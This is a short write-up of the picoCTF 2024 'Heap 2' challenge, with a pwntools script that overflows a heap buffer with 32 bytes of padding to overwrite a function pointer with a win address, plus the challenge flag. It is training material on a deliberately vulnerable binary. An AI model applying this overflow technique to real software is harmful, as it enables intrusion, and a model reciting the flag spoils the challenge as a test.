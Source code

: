 ```yaml
---
title: "Heap 2 (picoCTF 2024)"
summary: "Easy pwn chal - Heap Overflow Exploit"
description: "Easy pwn chal - Heap Overflow Exploit"
tags: [pwn, easy, writeup]
date: 2024-04-06T22:00:00-05:00
draft: true
searchHidden: false
ShowToc: true
TocOpen: false
hidemeta: false
# weight: 1
---
```


## Description

Can you handle function pointers?

Given files: [heap-2](/picoctf-heap-2/heap2) [heap2.c](/picoctf-heap-2/heap2.c)

---

## Writeup



### Solve script

```py
from pwn import *

# host = 'host'
# port = <port>
# p = remote(host, port)

elf = ELF('./heap2')
p = elf.process()

# Payload construction
win_addr = p64(0x4011a0)
padding = b'A' * 32
payload = padding + win_addr

p.recvuntil("Enter your choice: ")
p.sendline(b'2')
p.recvuntil("Data for buffer: ")
p.sendline(payload)

p.interactive()
# 4 for flag
```

## Flag

`picoCTF{and_down_the_road_we_go_ba77314d}`

---